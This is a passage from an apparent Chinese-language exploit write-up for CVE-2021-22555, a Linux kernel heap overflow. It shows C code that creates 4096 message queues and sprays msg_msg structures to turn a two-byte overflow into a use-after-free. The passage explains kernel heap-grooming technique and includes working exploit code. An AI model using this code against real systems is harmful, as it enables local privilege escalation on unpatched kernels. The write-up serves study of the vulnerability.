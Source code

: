 #### 3-1 漏洞转化：2字节溢出写0转化为UAF

##### （1）调用`msgget()`创建4096个消息队列

消息队列数目没有限制，但创建越多，exp越稳定

```c
  for (int i = 0; i < NUM_MSQIDS; i++) {
    if ((msqid[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666)) < 0) {
      perror("[-] msgget");
      goto err_no_rmid;
    }
  }
```

##### （2）主消息填充

**目的**：填充4096个主消息，消息大小为0x1000，以得到一个整齐的空间布局，使`msg_msg`结构体尽可能相邻。

```c
int write_msg(int msqid, const void *msgp, size_t msgsz, long msgtyp) {
  *(long *)msgp = msgtyp;
  if (msgsnd(msqid, msgp, msgsz - sizeof(long), 0) < 0) {
    perror("[-] msgsnd");
    return -1;
  }
  return 0;
}

  printf("[*] Spraying primary messages...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    memset(&msg_primary, 0, sizeof(msg_primary));
    *(int *)&msg_primary.mtext[0] = MSG_TAG;
    *(int *)&msg_primary.mtext[4] = i;
    if (write_msg(msqid[i], &msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) <
        0)
      goto err_rmid;
  }
```

`int msgsend(int msgid, const void *msg_ptr, size_t msg_sz, int msgflg)`

msgid——消息队列标识符；msg_ptr——指向结构体{mtype, mtext}；`msg_ptr.mtext[0]=MSG_TAG`—— 标识该内存区域为堆喷控制；`msg_ptr.mtext[4]=i`—— 标识该内存区id，以便识别内存区。

![1](/images/posts/CVE-2021-22555/1.png)
